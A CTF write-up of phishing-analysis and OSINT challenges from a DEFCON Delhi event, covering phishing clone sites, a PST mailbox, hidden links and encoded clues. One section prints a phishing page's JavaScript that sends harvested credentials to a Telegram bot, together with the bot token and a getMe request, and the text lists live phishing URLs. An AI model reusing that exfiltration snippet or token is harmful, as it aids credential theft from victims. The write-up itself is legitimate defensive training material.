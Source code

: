 # CheckPhish CTF
CheckPhish CTF was organised at the DEFCON DELHI Group (DC9111) 0x06 Event on the 17th of December 2023. This is a compilation of my writeups for the challenges I solved.

## Group 1
The challenges in this group were based on a TXT file which listed a few repositories:
```
3ll107 Need Intel Here ^_^ 
--------------------------

https://abhi-shek1289.github.io/Netflix-clone/
https://dev-doore.pantheonsite.io/qqqdayEJKnewwt.html
https://roundcube0004.web.app/
https://ipfs.io/ipfs/bafybeieuknyq67hapflc3izsnyah6gcjkfwdkku5ufsgjqs6jlmn2nkxhq/OVERDUE_INVOICE.html
https://zha-it-we-transfer.web.app/#admin@hereinfo.com
```

Below are the challenges that followed and the way I solved them.

### Find a Phish for MY-N-TRA
- Points: 80
- Challenge Text: Maybe analyse some github link!
  
#### Solution
The first thing I did was to check the repositories listed in the TXT file. The first one was a Netflix clone hosted on Github Pages. I decided to go to the Github User's profile and check the other repositories. I found a repository named [MYNTRA-Clone](https://github.com/Abhi-shek1289/MYNTRA-Clone).
- Flag: `checkphish{github.com/Abhi-shek1289/MYNTRA-Clone}`

### WhEre Transfer
- Points: 100
- Challenge Text: Find the C2 server where the credentials are exfiltrated.

#### Solution

### Part 1: Telegram as a C2
- Points: 150
- Challenge Text: IPFS & DOOOOOM!
  
#### Solution
The fourth repository listed in the TXT file was an IPFS link. I decided to check it out. It was a phishing page for a Adobe Document Cloud login. I decided to check the source code of the page and found a URL to send messages to a telegram bot:
`var tx1="6082978649";
var tx2="6946601537:AAFR_FOZRH6usZziS5y-qTBl87J3aJqnp74";
 ur = "https://api.telegram.org/bot"+tx2+"/sendMessage?chat_id="+tx1;`

- Flag: `checkphish{AAFR_FOZRH6usZziS5y-qTBl87J3aJqnp74}`

### Part 2: Find the bot
- Points: 200
- Challenge Text: Hope you've got the telegram s3cr3t. Now get me the bot name!

#### Solution
I decided to check the Telegram API documentation to see if I could find a way to get the bot name, since the source code already had the bot token. I found a method called `getMe` which returns information about the bot.
On accessing [this endpoint](https://api.telegram.org/bot6946601537:AAFR_FOZRH6usZziS5y-qTBl87J3aJqnp74/getMe), I got the following response:
```
{"ok":true,"result":{"id":6946601537,"is_bot":true,"first_name":"NewBank","username":"NewBank_bkbot","can_join_groups":true,"can_read_all_group_messages":false,"supports_inline_queries":false}}
```

- Flag: `checkphish{NewBank_bkbot}`

## Group 2
These challenges were more focussed on forensics and OSINT. The challenges were based on a PST File ([Outlook.pst](assets/Outlook.pst)) provided to us.

### Let's Go
- Points: 10
- Challenge Text: Create a CheckPhish account and mail us here: [api.check.phish@gmail.com](mailto:api.check.phish@gmail.com) with the subject "My CheckPhish API" and your API key in the body.

#### Solution
Just do what's told!

- Flag: `checkphish{th4nKS_4_reGISter1ng!!!}`

### Outlook
- Points: 15
- Can you name the owner of the outlook? Use password 1712

#### Solution
While the PST file can be opened on outlook, if you don't have outlook installed, you can use [GoldFynch PST Viewer](https://goldfynch.com/pst-viewer/).

Just load the PST and open the inbox. The first email is addressed to the owner of the PST file.
![Outlook Inbox](assets/outlook.png)

- Flag: `checkphish{ElliotAlderson}`

### M@il
- Points: 30
- Challenge Text: Identify the mail address used to sent the phishing mail.

#### Solution
On checking all of the mails, a clearly suspicious mail can be seen (image below).
![Suspicious Mail](assets/mail.png)

- Flag: `checkphish{no-reply@offersforstudents.online}`

### Link
- Points: 35
- Challenge Text: Can you identify the phishing link?

#### Solution
This is a bit tricky. While the link in the mail is shown as `www.microsoftoffice.com`, the actual phishing link is hyperlinked to this text and is not visible in the default view of this PST viewer.
Click on the Raw Props button on the bottom right corner of the viewer and scroll to the bottom. Click on save. This will download the raw data of the email in a bin file ([block-data-00200144.bin](assets/block-data-00200144.bin)). Simply run `cat` with the filename as an argument to see the real link.
![Raw Mail Data](assets/link.png)

- Flag: `checkphish{offfffiece366-offer.online}`

### L0c Acc3ss
- Points: 80
- Challenge Text: I made a super secure website and sent that to my otaku friend. But he can't open it without using special services. Do you know from where he can?

#### Solution
The word "otaku" is a strong hint towards the fact that the website can only be opened from Japan. This is also evident from the fact that we cannot connect to the server if we try to normally access the website. After trying out a couple of VPNs and connecting and reconnecting, ProtonVPN finally worked for me.

- Flag: `checkphish{Japan}`

### Sourc3
- Points: 80
- Challenge Text: Maybe you have the link... Can you access it? hahahhaha

#### Solution
After connecting to VPN in Japan and accessing the link, we get a phishing page. Viewing the source code, we can see a comment which contains the flag.
`<!---checkphish{congo_you_R_pir0_in_m4squ3rding}-->`

- Flag: `checkphish{congo_you_R_pir0_in_m4squ3rding}`
  
### Find the b1rad3r
- Points: 90
- Challenge Text: Netflix or Netlifxy or... What was it? You know my b1rad3r believes that the **SOURCE** of the **evil ditches** are... a secret.

#### Solution
This was a cryptic question. If you google evil ditches, you will stumble upon [Malebolge](https://en.wikipedia.org/wiki/Malebolge). Googling "Malebolge source" will lead you to an esoteric language called [Malbolge](https://en.wikipedia.org/wiki/Malbolge). The source code of the phishing website has something weird that seems like it's written in Malbolge. Putting that into a Malbolge interpreter gives us this link:
[https://b1rad3r-ch3ckph15h.netlify.app/](https://b1rad3r-ch3ckph15h.netlify.app/)

- Flag: `checkphish{https://b1rad3r-ch3ckph15h.netlify.app/}`

### Find me
- Points: 125
- Challenge Text: You know a lot about me now. Huh I wasn't being careful. Thankfully you don't know my email, or do you?

#### Solution
On downloading the [Microsoft365.zip](assets/Microsoft365.zip) file from the link we found in the last challenge and opening it, there is a next.php file. The email address can be found written there below.

- Flag: `checkphish{newtonproton1337@proton.me}`

### S3crEt
- Points: 150
- Challenge Text: Got a secret. Can you keep it? Swear, this one you'll better save in your pockKIT.

#### Solution
In the same zip file, there is a cgi-bin folder with the secret, but it's encoded in base64. You can google base64 to text and decode the secret.

- Flag: `checkphish{Yooouuuuu_r_4maZINgggg!!!!}`

